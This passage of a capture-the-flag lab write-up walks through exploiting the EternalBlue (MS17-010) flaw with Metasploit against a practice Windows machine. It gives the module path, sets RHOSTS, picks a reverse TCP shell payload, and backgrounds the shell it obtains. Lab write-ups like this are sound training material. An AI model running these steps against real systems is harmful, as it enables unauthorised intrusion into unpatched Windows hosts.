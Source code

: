 It's a particularly interesting read for technical and for ethical reasons -- I highly suggest researching this more if you're interested in how things played out.

## [Task 2] Gain Access

Now that we know what we can use, it's time to exploit it. EternalBlue has since been made into a module in _Metasploit_, so we'll use that to do the job. There's an entire series of rooms on Metasploit, but we'll just use this exploit as an example.

**[Task 2, Question 1] Start Metasploit**

To begin using Metasploit, issue the command ```msfconsole``` in your terminal.

**[Task 2, Question 2] Find the exploitation code we will run against the machine. What is the full path of the code? (Ex: exploit/........) - exploit/windows/smb/ms17_010_eternalblue**

You can always search for things in Metasploit by running ```search [search term]``` in the Metasploit console. In this case, you can run ```search eternalblue``` or perhaps ```search ms17-010```. Either way, the first result is likely the one you're looking for. You can type ```use 0``` after searching, or just run ```use exploit/windows/smb/ms17_010_eternalblue``` directly to begin setting up the exploit.

**[Task 2, Question 3] Show options and set the one required value. What is the name of this value? (All caps for submission) - RHOSTS**

If you want to view options, run ```show options``` once you have the exploit chosen. You're gonna probably want to scroll up to "Module Options" and see what's required and not set. As we see below, it's RHOSTS.

![image](https://github.com/abeeching/thm-stuff/assets/56741029/c99b3440-b919-45fa-a4a7-55e6b4218bbc)

This just means we need to set the target host, so all we have to do is ```set RHOSTS TARGET_IP```. You can examine the other options there if interested.

**[Task 2, Question 4] Usually it would be fine to run this exploit as-is; however, for the sake of learning, you should do one more thing before exploiting the target. Enter the following command and press enter: ```set payload windows/x64/shell/reverse_tcp```. With that done, run the exploit!**

Do as the question says -- this is just to make sure that we set the right kind of payload/shell for our purposes. Normally you can run _Meterpreter_ which acts as a shell and provides other functionalities, but all you really need is a Windows shell, so that's why we're using that specific payload. Anyway, once you set all that up, just run `run`.

**[Task 2, Question 5] Confirm that the exploit has run correctly. You may have to press enter for the DOS shell to appear. Background this shell (CTRL + Z). If this failed, you may have to reboot the target VM. Try running it again before a reboot of the target.**

If you're seeing this, you're in the clear. It's entirely possible for EternalBlue to just crash the system itself (ideally, you would _check_ to see if the vulnerability exists on the machine, and then you would stop there unless you needed to get in the machine for whatever reason), so that's why we need to check first. Since I was able to get it to run, I hit CTRL + Z and keep this shell open in the background. You may need to type "y" to confirm that you want to background the shell.

![image](https://github.com/abeeching/thm-stuff/assets/56741029/dceb992f-8d7b-4c1d-a077-ccac796a17b0)

